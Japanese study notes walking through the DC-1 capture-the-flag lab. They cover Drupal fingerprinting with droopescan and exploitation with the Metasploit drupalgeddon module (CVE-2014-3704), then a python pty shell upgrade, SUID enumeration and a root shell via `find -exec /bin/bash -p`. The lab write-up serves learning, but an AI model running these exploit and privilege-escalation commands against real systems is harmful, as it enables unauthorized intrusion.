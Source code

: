 ## DC-one 410~

## 目的
- flag1 <- システム内
- flag4 <- システム内
- theFinalFlag <- root

### ポートスキャンまでいつもと同じ
  - 20, 80, 111
### ドメインネームを書き込む
- `vim /etc/hosts`
- `192.168.56.103  dc-1`

### Webサイトをチェックする
  - robots.txtを見る。これはクローラーがサイトをクローリングしてもいいかを判断できるサイト。Disallowと書いているのは、クローラの巡回を拒否している
  - サイトの作成ソフトとおおよそのバージョンがわかる
  - drupalは有名なwebサイトの構築ソフト

### droopscanインストール cf417
- インターネットに繋げて
- `pip install --break-system-packages --user droopescan`
  - `--break-system-packages` 最近のpipは面倒なので、これを使うと昔みたいに簡単にインストールできる
  - `--user` 本来はpipはルート権限だがルートでなく、個人としてコマンドを取得するのでパスワードがいらない 
- pip listにはあるが、個人ユーザでインストールしているのでパスが通っていないので実行できない問題が起こる
- 次のどちらかでパスを探す。もちろん上の方が効率がいい
  - `find ~ -name droopescan` 
  - `sudo find / -name droopescan`

### droopescan
- droopescanはPythonベースのセキュリティスキャナでDrupal,wordpress,Joomlaで使える。より細かいバージョンがわかって、そこからwebサイトを構築している脆弱性を発見できることがある
- `/home/user/.local/bin/droopescan scan drupal -u $URL`
- 結構時間かかる
- versin 7.22~7.26ということがわかる
- drupalはPluginを選択して、インストールできる。それが表示されている

### (補足)nmap NSE
- `nmap -p 80 --script vuln $IP`

### (補足)searchsploitでexploitを探す
- `searchsploit drupal 7 remote`
- `.py`,`.rb`がコマンドで、`.txt`は説明
- シェルの取得を目的でdrupalのバージョンから、このモジュールを探す -> php/webapps/35150.php
- `searchsploit -m パスの番号`
  - `searchsploit -m 35150`
  - ファイルがダウンロードされるので実行する


### Metasploitをネットで調べる
- drupalに脆弱性があるかもしれない
- 調べるだけなのでインターネットにつながっているなら何でもいい 
- `Exploit Database`を検索して、`drupal 7 remote`でsearchする(CVE-2014-3704)
- drupalgeddonを使うのでメモっておく

### metasploitを実行する
  - ParrotOSのシェルで
  - `msfconsole`
  - 起動画面に使えるモジュールや分類が表示されている
  - どこにdrupalgeddonあるか調べる `search type:exploit drupal` Pathを覚えておく
    - `rank`というのはツールの有能性 
  - `use exploit/multi/http/drupal_drupageddon`
    - パスの入力にはTabが使える
    - 左にある番号を使って`use 番号`でもOK
  - `info`
    - モジュールの使い方がわかる 
  - `show options`をして、Requiredと書いてあるところのyesの部分は必ず埋める必要がある。ただし、`targeturi`はここではないので、デフォルトでスラッシュが設定されているので入力する必要がない
  - `set RHOSTS 192.168.56.103` ターゲット側端末
    - 大文字のところは小文字でもいい 
  - `set LHOST 192.168.56.102` 攻撃側端末
  - `show options`で確認する
  - `run`
  - シェルを取得できるが、これはダムシェルと言って機能がとても悪いシェルである。次のコマンドをやってみる これはOSを調べるコマンドである `uname -a`、使えないので、いつも使っているようなシェルにする


### Pythonのptyで対話シェルに切り替え
  - `shell`
  - Pythonを呼び出してシェルを呼び出す
  - `python -c 'import pty; pty.spawn("/bin/bash")'`
  - 対話シェルに切り替わる

### (参考)Bashの設定
- 通常のユーザなら`export SHELL=/bin/bash`でbashが使える
- ただし、ここではwww-dataが/usr/sbin/nologin や /bin/false では使えない

### システムの探索
- OSの特定をすることで脆弱性を見つけられる可能性がある
  - `uname -a` 
- 過去のコマンドの履歴で何かわかるかもしれない
  - `cat .bash_history`
- 個人ユーザがroot権限でできることを調べる
  - `sudo -l`をやってみる
- SUIDファイルを検索
  - `find / -perm -u=s -type f 2> /dev/null`
  - find以外に多くのコマンドが出てくるが、sudoコマンドは使えないのでsudoコマンドを使わないGTFOBinsを探す。結局、色々あるがfindしか使えない

### 一時ファイルの置き場所を調べる
- `/tmp`は再起動後に消えるが、`/var/tmp`は再起動後でも消えない

### SUIDファイルであるfindコマンドでrootシェルの取得
- SUIDファイルはどのユーザが実行しても所有者が実行したことになる設定
- `which find`パスを調べる
- `ls -l /usr/bin/find`
  - 実行のパーミッションがSで所有者はrootなので、このファイルを実行したらrootになれる
- GTFOBinsのWebサイトから `find`を検索
  - GTFOBinsは裏技ではなく、見落としがちで上手いこと使えるコマンド集 
- `/usr/bin/find . -exec /bin/bash -p \; -quit`
  - `find ~`でもok
  - `-exec`は見つけたファイルを実行する。\;はexecコマンドの終了を示している
  - `-p`は出力がPosix表示になる 
- root権限の取得
### Flagを探して表示
  - `cat /root/thefinalflag.txt`  


